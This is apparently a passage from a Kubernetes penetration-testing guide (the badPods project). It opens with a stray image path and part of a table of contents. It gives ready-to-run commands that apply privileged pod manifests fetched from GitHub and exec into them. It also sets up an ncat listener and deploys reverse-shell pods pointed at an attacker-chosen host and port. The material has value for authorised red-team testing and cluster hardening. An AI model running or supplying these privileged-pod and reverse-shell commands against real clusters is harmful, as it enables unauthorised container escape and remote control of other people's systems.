     - [Grab all tokens from all pods on the system](#grab-all-tokens-from-all-pods-on-the-system-1)
  - [Some other ideas](#some-other-ideas)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)
# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv/pod/priv-exec-pod.yaml
kubectl exec -it priv-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv/[RESOURCE_TYPE]/priv-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep priv-exec-[RESOURCE_TYPE]      
kubectl exec -it priv-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe priv-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener

```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/priv/[RESOURCE_TYPE]/priv-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```
